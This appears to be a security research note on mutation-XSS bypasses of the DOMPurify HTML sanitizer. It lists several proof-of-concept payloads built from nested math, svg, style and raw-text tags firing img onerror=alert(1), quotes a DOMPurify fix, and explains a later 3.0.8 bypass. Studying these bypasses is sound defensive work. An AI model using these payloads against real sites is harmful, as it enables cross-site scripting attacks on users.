 ```html

DOMPurify.sanitize('<math><annotation-xml encoding="text/html"><style><img src=x onerror=alert(1)></style>',{"ADD_TAGS":['annotation-xml']})

DOMPurify.sanitize('<math><mi><b><style><b title="</style><iframe onload&#x3d;alert(1)<!--"></style>',{"FORBID_TAGS":["mi"]})

document.write(DOMPurify.sanitize("x<noframes><svg><b><xmp><b title='</xmp><img src=x onerror=alert(1)>'>",{ADD_TAGS:["xmp"]}))

<xmp><svg><b><style><b title='</style><img src=x onerror=alert(1)>'>
<noembed><svg><b><style><b title='</style><img src=x onerror=alert(1)>'>

<noframes><svg><b><style><b title='</style><img src=x onerror=alert(1)>'>

<plaintext><svg><b><style><b title='</style><img src=x onerror=alert(1)>'>

<iframe><svg><b><style><b title='</style><img src=x onerror=alert(1)>'>

```
**Fix by Dompurify for above issue:**
```js
/* Tags to ignore content of when KEEP_CONTENT is true */  <- Just remove contents too
const FORBID_CONTENTS = addToSet({}, [ 'annotation-xml', 'audio', 'colgroup', 'desc', 'foreignobject', 'head', 'math', 'mi', 'mn', 'mo', 'ms', 'mtext', 'script', 'style', 'template', 'thead', 'title', 'svg', 'video', ]);
```


### A similar masato’s above variation in recent version by kevin mizu restricted DOMPurify 3.0.8 2024
**Switch:** Style tag HTML to SVG
**Payload:**
```js
DOMPurify.sanitize(`<svg><annotation-xml><foreignobject><style><!--</style><p id="--><img src='x' onerror='alert(1)'>">`, {
    CUSTOM_ELEMENT_HANDLING: {
        tagNameCheck: /.*/
    },
    FORBID_CONTENTS: [""]
});
```

**Description:**
- The <annotation-xml> element is treated as a custom element due to the permissive custom element regex (tagNameCheck: /.*/). With FORBID_CONTENTS set to an empty array, both <annotation-xml> and <foreignobject> within the <svg> are considered valid and aren't removed by the namespace checks. However, DOMPurify later removes <foreignobject>, leaving its contents to be re-assigned as children of <annotation-xml> due forbid_contents set to empty. As a result, the <style> tag (which normally belongs to the HTML namespace) is now nested inside the SVG's <annotation-xml>, allowing it to be treated as SVG content.
